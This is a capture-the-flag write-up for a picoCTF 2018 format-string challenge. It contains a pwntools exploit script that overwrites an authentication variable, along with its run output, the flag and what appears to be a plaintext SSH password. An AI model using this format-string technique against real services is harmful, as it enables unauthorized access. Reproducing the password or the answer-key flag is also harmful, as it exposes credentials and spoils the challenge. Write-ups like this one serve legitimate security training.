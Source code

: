 # LEVEL GOAL

Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 52918.

# HINTS

What happens if you say something OTHER than yes or no?

# SOLUTION

Code developed:
```
from pwn import *

context(arch='i386', os='linux')
auth_addr = int('0x0804a04c', 16)

s = ssh('nikel', '2018shell1.picoctf.com', password='N@ruhina95')
py = s.run('nc 2018shell1.picoctf.com 52918')
py.recvuntil('\n')

exploit = p32(auth_addr) + "%x"*10 + "%n"
py.sendline(exploit)
print(py.recvall())
py.close()
```

Execution:
```
nikhilh@ubuntu:~/picoctf_18/binary_exploitation$ python auth.py 
[+] Connecting to 2018shell1.picoctf.com on port 22: Done
[*] nikel@2018shell1.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: 'nc 2018shell1.picoctf.com 52918': Done
[+] Receiving all data: Done (156B)
[*] Closed SSH channel with 2018shell1.picoctf.com
Received Unknown Input:

L\xa0\x080489a6f76d95a0804875af7710000f7710918ffac8fe0ffac90d40ffac9074429
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```

# FLAG

picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
